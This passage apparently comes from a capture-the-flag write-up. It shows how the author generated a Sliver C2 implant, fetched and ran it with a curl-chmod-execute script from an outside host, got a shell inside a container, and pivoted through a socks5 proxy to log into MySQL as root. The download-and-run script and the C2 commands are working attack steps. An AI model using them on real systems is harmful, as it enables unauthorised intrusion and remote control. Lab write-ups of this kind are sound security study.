 ```
sliver > generate --mtls 10.8.4.230:8888 --os Linux --arch 64
```

```
sliver > mtls --lport 8888
```


### Implant Upload

`sh.sh`

```sh
#!/bin/env bash

curl http://10.8.4.230/LAZY_POLO -o /tmp/LAZY_POLO && \
    chmod +x /tmp/LAZY_POLO && \
    /tmp/LAZY_POLO
```

`HTTP Server`

```sh
python3 -m http.server
```

```
sliver > use fff759cb-5de0-49bd-990b-aec6b0a1db35
```

```
sliver (LAZY_POLO) > shell
```

I successfully gained shell access and retrieved the first flag.

It appears that I am inside a container.

## MySQL Server

```
3306/tcp filtered mysql
```

Using a proxy, I was able to log into the MySQL server as root.

### Sliver socks5

```
sliver (LAZY_POLO) > socks5 start
```

> Remember to properly configure proxychains!

```sh
proxychains4 mysql -u root -h 172.18.0.1 --skip-ssl
```


### PowerDNS
